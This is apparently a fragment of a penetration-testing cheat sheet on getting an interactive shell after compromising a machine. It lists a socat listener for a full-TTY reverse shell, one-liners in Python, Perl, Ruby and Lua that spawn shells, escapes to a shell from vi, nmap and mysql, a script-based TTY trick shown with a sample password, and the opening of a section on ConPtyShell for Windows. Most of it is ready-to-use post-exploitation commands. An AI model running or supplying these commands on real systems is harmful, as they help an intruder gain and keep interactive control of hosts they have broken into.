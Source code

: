 or use 'socat' binary to get a fully tty reverse shell

```
socat file:`tty`, raw, echo=0 tcp-listen:12345
```

Spawn a TTY shell from an interpreter

### Shell
```
/bin/sh -i
```
### Python
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
```
### Perl
```
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
```
### Ruby
```
ruby: exec "/bin/sh"
```
### Lua
```
lua: os.execute('/bin/sh')
```

* vi: :!bash
* vi: :set_shell=/bin/bash:shell
* nmap: !sh
* mysql: ! bash

Alternative TTY method

```
su - user
su: must be run from a terminal

/usr/bin/script -qc /bin/bash /dev/null
su - user

Password: P4ssW0rD
```
### Fully interactive reverse shell on Microsoft Windows

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
**ConPtyShell uses the function CreatePseudoConsole(). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**
